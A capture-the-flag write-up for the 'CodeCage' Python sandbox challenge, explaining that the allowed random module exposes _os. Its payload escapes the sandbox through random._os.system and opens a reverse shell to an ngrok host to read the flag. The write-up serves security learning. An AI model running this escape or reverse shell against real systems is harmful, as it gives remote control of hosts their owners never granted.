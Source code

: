 # Solution to CodeCage Challenge
**Category**: Web Exploitation  
**Flag**: `VSL{all0w_3sc4p3_1s_fun_hehe_00e0dcbd5!}`

## Description

This is a place for you to test your coding skills and explore interesting things in a safe environment. Don't forget to solve the CAPTCHA to get started, and remember that all your actions must comply with security principles.

## Code
```python
ALLOWED_MODULES = {
    'abc',
    'aifc',
    'argparse',
    'array',
    'ast',
    'audioop',
    'base64',
    'calendar',
    'cmath',
    'code',
    'codecs',
    'copy',
    ...
}
```
## Solution

### 1. Analyzing the `random` Module
Upon inspecting the `random` module, it becomes evident that it has a linkage to the `_os` module. This association presents an opportunity to exploit and execute Remote Code Execution (RCE) within the sandbox environment.

![Sandbox Escape](../image/image.png)

---

### 2. Exploiting with Reverse Shells
We use reverse shells (`revshells`) to exploit the vulnerability and gain access to the `flag.txt` file.

![RCE](../image/image-2.png)

---

### Payload

```python
import random
print(random._os.system("""export RHOST="0.tcp.ap.ngrok.io";export RPORT=19396;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'"""))
```


### Key Insight
This challenge can also be solved by directly reading the `flag.txt` file. The primary reason is that the author made a custom implementation error. 😅
